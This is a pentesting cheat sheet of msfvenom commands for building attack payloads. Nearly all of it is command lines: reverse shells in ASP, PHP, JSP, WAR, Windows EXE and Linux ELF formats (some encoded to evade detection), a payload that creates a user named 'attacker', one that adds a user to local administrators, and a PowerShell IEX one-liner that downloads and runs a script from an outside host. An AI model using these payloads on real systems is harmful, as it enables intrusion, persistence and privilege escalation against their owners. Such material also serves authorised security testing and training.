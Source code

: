 ```yaml
---
description: Generate payload with MSFvenom
---
```


# Generate Payload

### Listing

```bash
msfvenom -l payloads #Payloads
msfvenom -l encoders #Encoders
msfvenom -l platforms #Platforms
```

### Web Based Payload

ASP Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=1337 -f asp > asuka.asp
```

PHP Payload

```bash
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
echo "<?php" | cat - shell.php > temp && mv temp shell.php
```

JSP Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

WAR Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### Windows

Create User

```bash
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
```

Execute Command

```bash
msfvenom -a x86 --platform Windows \
-p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" \
-f exe > pay.exe
```

```bash
msfvenom -a x86 --platform Windows -p \
windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
```

Reverse Shell

* x86

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=1337 -f exe -o Remote.exe
```

* x64

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=4443 -f exe -o shell.exe
```

### Linux

* x86

```bash
msfvenom  -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=1337 \
-e x86/shikata_ga_nai -f elf > asuka-x86.elf
```

* x64

```bash
msfvenom -a x64 --platform linux -p linux/x64/shell_reverse_tcp \
LHOST=<IP> LPORT=1337 -e x64/xor_dynamic -f elf > asuka.elf
```

### MSFvenom Payload Creator (MSFPC)

[https://github.com/g0tmi1k/msfpc](https://github.com/g0tmi1k/msfpc)
